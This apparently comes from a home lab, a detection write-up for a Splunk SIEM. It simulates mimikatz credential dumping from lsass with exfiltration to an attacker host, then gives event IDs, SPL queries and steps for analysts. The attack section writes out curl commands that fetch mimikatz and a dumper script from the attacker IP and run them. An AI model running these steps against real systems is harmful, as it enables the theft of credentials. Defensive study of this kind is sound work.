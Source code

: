 

# Detection Usecase 5 : Credential Dumping and Exfiltration


# Scenario Summary: 

An Attacker has attempted to logged in into the System by using credentials of a user and able to download a mimikatz and a suspicious ps1 file,  
then executed the ps1 file which attempt to access lsass.exe process and exfiltrate the data and send to attacker system using HTTPS.  

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.
- The Attack was simulated by Kali Linux on Windows as follows: 

1) Attacker Login to Victim Machine via SSH and downloaded mimikatz along with a Powershell Scripts ![dumper.ps1](<scripts/dumper.ps1>).  
```
ssh sshuser@192.168.0.103
```  
```
curl http://192.168.0.106/mimikatz.exe -o mimikatz.exe
```
```
curl http://192.168.0.106/dumper.ps1 -o dumper.ps1
```

2) Then executed the following command to capture a lsass data which contain sensitive passwords.  
```
powershell .\dumper.ps1
``` 
3) Now Attacker has started a Manually created https server using python script [server.py](<scripts/server.py>) and received the file which contain mimikatz output.  
```
python3 server.py
```  
![recieved](logs/Screenshot_2025-06-06_23_48_41.png)


 ******************************

- Tools Used:  
    - Attacking Tool : PowerShell Script, SSH, Python Scripts, Mimikatz.  
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon, Wireshark, Snort


 ******************************
 ******************************

# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                      |
|---------------------------|-----------|----------------------------------|
| WinEventLog : Security    | 4624      | Successful logon                 |
| WinEventLog : Security    | 4672      | Special Privilege assigned       |
| WinEventLog : Sysmon      | 3         | Network Connection Detected      |
| WinEventLog : Sysmon      | 1         | Process Creation                 |
| WinEventLog : Security    | 5156      | Permitted a Connection           |
| WinEventLog : Sysmon      | 11        | File Creation                    |
| WinEventLog : Security    | 4656      | Object was requested             |
| WinEventLog : Security    | 4663      | Attempt to access an Object      |
| WinEventLog : Security    | 4634      | Account logged off               |


 ******************************
 ******************************

# Detection Query / Logic:

```spl 
- Search - Logged in attempt
index=* EventCode=3 OR EventCode=4624 OR EventCode=4672 LogonType=8 OR LogonType=10
```
```spl 
- Search - Command Execution or file creation
index=* EventCode=1 OR EventCode=11 OR EventCode=5156
```
```spl 
- Search - Lsass.exe dumping
index=* Object_Name=*lsass.exe" Process_Name="*mimikatz.exe" | table _time_, EventCode, Account_Name, Account_Domain, Accesses
```
```spl 
- Search - HTTPS Connection
index=* EventCode=3 DestinationIp="192.168.0.106" | stats count by _time, SourceIp, DestinationIp, DestinationPort, EventCode, _time
```

 ******************************
 ******************************

# Sample Alert Screenshot

1) User has logged in.  

![log1](<logs/Screenshot 2025-06-07 093058.png>)  
![log2](<logs/Screenshot 2025-06-07 094052.png>)  
![wire](<logs/Screenshot 2025-06-07 092615.png>) 

2) Then attempted to download mimikatz and a ps1 file.  

![mimi1](<logs/Screenshot 2025-06-07 094142.png>)  
![mimi2](<logs/Screenshot 2025-06-07 094153.png>)  
![net](<logs/Screenshot 2025-06-07 094446.png>)  
![snort](<logs/Screenshot 2025-06-07 092411.png>)
![dum1](<logs/Screenshot 2025-06-07 094505.png>)  
![dum2](<logs/Screenshot 2025-06-07 094515.png>)  
![wire2](<logs/Screenshot 2025-06-07 092659.png>)

3) Then Enter PowerShell and executed the ps1 file.    

![mimiexe1](<logs/Screenshot 2025-06-07 094538.png>)  
![mimiexe2](<logs/Screenshot 2025-06-07 094649.png>)  

4) The mimikatz attempt to access the Lsass.exe Process.   

![access1](<logs/Screenshot 2025-06-07 100006.png>)  
![access2](<logs/Screenshot 2025-06-07 100019.png>)


5) Then a HTTPS connection was attempted by sshuser to send data to attacker system.  

![443](<logs/Screenshot 2025-06-07 093537.png>)

 ******************************
 ******************************

# Analyst Notes / Recommendations:

1) What Should an Analyst do ? 

-> If there is Situation like Credentials Dumping Using Mimikatz, then :
    -> Confirm the Detection - Verify logs and see the indicators(e.g.,Sysmon EventId=1(Downloading Of mimikatz), EventCode=11(File Creation)EventCode=4663 or 4656(Access to lsass.exe Process)) and try to correlate it with unexpected login or unusual user behavior.  
    -> Isolate the system and stop malicious processes running and disable the user account and Block the IP.  
    -> Check for any Lateral Movement activity(e.g.,Registry Modification(4657), Scheduled Tasks(4698) or Service Creation(4697)).  
    -> Secure the Lsass Process using RunAsPPL, Credential Guard, Disable Wdigest(no plaintext passwords) and Monitor lsass access by creating alerts.  
    -> Collect the Evidence.  
    -> Report & Document the incident & Improve.  

# Detection Status

 -> Successfully Detected.  
